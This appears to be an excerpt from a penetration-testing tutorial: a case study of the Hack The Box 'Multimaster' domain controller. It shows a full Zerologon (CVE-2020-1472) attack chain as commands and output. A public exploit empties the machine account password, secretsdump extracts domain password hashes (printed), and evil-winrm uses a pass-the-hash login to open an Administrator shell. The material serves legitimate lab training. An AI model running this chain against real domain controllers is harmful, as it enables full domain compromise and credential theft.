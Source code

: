 # Exercise: Case Study Multimaster

This machine illustrates that even on Hack The Box, there are sometimes security misconfigurations and unintended vulnerable components. The machine is a domain controller in which the initial vulnerability is through a SQL injection. However, it turned out that the machine was released a few weeks before CVE-2020-1472 was disclosed and so it was actually vulnerable to the Zerologon attack. To test this, you can use the proof of concept of this attack:

```bash
┌─[rin@parrot]─[~/boxes/Multimaster]
└──╼ $git clone https://github.com/dirkjanm/CVE-2020-1472
To execute, you simply give the name of the domain and the IP address of 
the domain controller:
┌─[rin@parrot]─[~/boxes/Multimaster/CVE-2020-1472]
└──╼ $python3 cve-2020-1472-exploit.py MULTIMASTER 10.10.10.179
Performing authentication attempts...
============================================================================================================================
Target vulnerable, changing account password to empty string
Result: 0
Exploit complete!
```

Now that the machine password has been set to an empty string, you can use Impacket's secretsdump.py that will collect all of the domain's users and password hashes:

```bash
┌─[✗]─[rin@parrot]─[~/boxes/Multimaster/CVE-2020-1472]
└──╼ $secretsdump.py -just-dc -no-pass MULTIMASTER\$@10.10.10.179
Impacket v0.9.22.dev1+20200915.115225.78e8c8e4 - Copyright 2020 
    SecureAuth Corporation
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:69cbf4a9b7415c9e1
caf93d51d971be0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:06e3ae564999dbad74e576cdf0f717d3:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:
31d6cfe0d16ae931b73c59d7e0c089c0:::
MEGACORP.LOCAL\svc-nas:1103:aad3b435b51404eeaad3b435b51404ee:
fe90dcf97ce6511a65151881708d6027:::
MEGACORP.LOCAL\tushikikatomo:1110:aad3b435b51404eeaad3b435b51404ee:
1c9c8bfd28d000e8904f23c280b25d21:::
MEGACORP.LOCAL\andrew:1111:aad3b435b51404eeaad3b435b51404ee:
9e63ebcb217bf3c6b27056fdcb6150f7:::
MEGACORP.LOCAL\lana:1112:aad3b435b51404eeaad3b435b51404ee:
3c3c292710286a539bbec397d15b4680:::
MEGACORP.LOCAL\alice:1601:aad3b435b51404eeaad3b435b51404ee:
19b44ab9ec562fe20b35ddb7c6fc0689:::
<SNIP>
```

Once you have these hashes, you can use Administrator's account to remote access the machine using evil-winrm

```bash
┌─[✗]─[rin@parrot]─[/opt/evil-winrm]
└──╼ $evil-winrm -u Administrator -H 69cbf4a9b7415c9e1caf93d51d971be0 \
-i 10.10.10.179
Evil-WinRM shell v2.3
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
megacorp\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

Of course, this attack will have impacted the domain controller significantly by resetting the machine account's password to an empty string. If this was a machine with other Hack The Box users accessing it, you would want to avoid doing something that would significantly impact their experience. As a real attacker, this would send alerts flying and so that would be a consideration as well. Nevertheless, this is an exploit that is being used in the wild as I am writing this.

